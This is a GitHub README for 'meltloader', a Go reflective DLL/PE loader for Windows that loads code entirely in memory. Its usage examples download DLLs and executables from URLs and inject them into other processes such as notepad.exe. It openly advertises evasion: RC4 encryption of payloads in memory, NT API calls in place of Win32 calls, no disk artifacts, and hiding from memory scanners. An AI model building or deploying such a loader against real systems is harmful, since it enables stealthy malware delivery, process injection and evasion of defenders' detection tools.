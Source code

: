 # meltloader

a reflective dll/pe loader for windows written in go that performs pe loading entirely in memory with automatic memory management and encryption features.

## demo
>now supports PEs
![melt](https://github.com/user-attachments/assets/819639da-32ca-4393-8945-0e4c0b8145d6)

## overview

meltload implements reflective dll/pe loading using windows nt api calls to allocate, write, and execute pe files without touching disk. the loader handles pe parsing, relocation processing, import resolution, and memory protection changes while providing tracking and cleanup capabilities. this should allow you to chain an arbitrary amount of DLLs that perform various operations in a modular and secure manner :3

the loader uses windows' provided SystemFunction032 rc4 encryption for evasion purposes. downloaded dlls are always encrypted in memory with an optional sleep period before decryption and execution, and after execution the mapped dll image gets encrypted in place using a randomly generated key. this makes the loaded dll unreadable to memory analysis tools while maintaining proper cleanup functionality.

## https requirement

LoadDLLFromURL requires https connections as winhttp in all my implementations failed with non https and i cba to look at microsoft docs any longer for function signature and type converting windows stuff to go.

## go dll compatibility

also works with go compiled dlls, see go-dll-src/ for reference 

## api usage

```go
// load dll from file
mapping, err := pe.LoadDLLFromFile("path/to/dll.dll", "ExportedFunction")

// load dll from url with optional sleep before encrypt/decrypt finishes
mapping, err := pe.LoadDLLFromURL("https://example.com/dll.dll", "ExportedFunction", 5)

// load dll from url without sleep before encrypt/decrypt finishes
mapping, err := pe.LoadDLLFromURL("https://example.com/dll.dll", "ExportedFunction")

pid, pHandle, err := pe.FindTargetProcess("notepad.exe")
if err != nil {
	log.Printf("[main] failed to find process: %v", err)
	fmt.Println("failed to find process", err)
	return
}
buff, err := net.DownloadToMemory("https://url.com/file.dll")
if err != nil {
	log.Printf("[main] failed to download DLL: %v", err)
	fmt.Println("failed to download", err)
	return
}
_, err = pe.LoadDLLRemote(pHandle, buff, "ExportedFunction")
if err != nil {
	log.Printf("[main] LoadDLLRemote failed: %v", err)
	fmt.Println("failed to load", err)
	return
}
log.Printf("[main] LoadDLLRemote succeeded")
// same pattern for LoadPERemote()
buff, err := net.DownloadToMemory("https://url.com/file.exe")
if err != nil {
	log.Printf("[main] failed to download PE: %v", err)
	fmt.Println("failed to download", err)
	return
}
_, err = pe.LoadPERemote(pHandle, buff)
if err != nil {
	log.Printf("[main] LoadPERemote failed: %v", err)
	fmt.Println("failed to load", err)
	return
}
log.Printf("[main] LoadPERemote succeeded")

// check currently mapped dlls
baseAddrs, sizes, count := pe.GetMap()
fmt.Printf("currently have %d PEs mapped:\n", count)
for i := 0; i < count; i++ {
	fmt.Printf("PE %d: Base=0x%X, Size=%d bytes\n", i, baseAddrs[i], sizes[i])
}

// cleanup/unmap dll from memory
err = pe.Melt(mapping)

// cleanup/ummap exe from memory 
err = pe.MeltPE(mapping)
```

## function identifier interface

the functionIdentifier parameter accepts multiple types:

- string: function name for named exports ("MessageBoxA")
- int: ordinal number for ordinal exports 
- string containing number: automatically parsed as ordinal ("123")

if no specific function is found, the loader will execute the dll's entry point with DLL_PROCESS_ATTACH.

## technical implementation

the loader performs standard reflective dll loading steps:

pe validation checks dos and nt headers for proper signatures and offsets. memory allocation uses NtAllocateVirtualMemory attempting preferred base address first, falling back to system-chosen addresses. section mapping copies pe headers and each section to their virtual addresses using NtWriteVirtualMemory.

relocation processing handles base address changes by parsing the relocation table and updating all absolute addresses. only IMAGE_REL_BASED_DIR64 relocations are processed for 64-bit compatibility. import resolution walks the import table, loads required libraries with LoadLibraryW, and resolves function addresses with GetProcAddress.

memory protection changes from PAGE_READWRITE to PAGE_EXECUTE_READ using NtProtectVirtualMemory after dll loading completes. export resolution searches the export table by name or ordinal to find the target function.

the encryption system generates a random 32-byte rc4 key during loading. a deferred function encrypts the mapped dll memory in place after execution completes. the encryption key gets securely wiped from memory after use.

memory tracking maintains a global registry of loaded dlls protected by read-write mutex. each mapping stores base address and size information. the Melt function uses VirtualFree with MEM_RELEASE flag and automatically removes entries from the tracking registry. this is opsec iffy, but DLL 0: Base=0x19065C10000, Size=32768 bytes is all that shows up to memory scanners, can also optionally be encrypted when unused if you want to adapt this further

## evasion features

the loader includes several evasion mechanisms. downloaded dlls are always encrypted in memory with an optional time period before decryption and execution. mapped dlls get encrypted in place after execution using rc4 with random keys. memory operations use nt api calls instead of higher level win32 apis. all allocations and operations happen entirely in memory without disk artifacts. the tracking system allows complete cleanup of loaded dlls, removing them from our process memory.
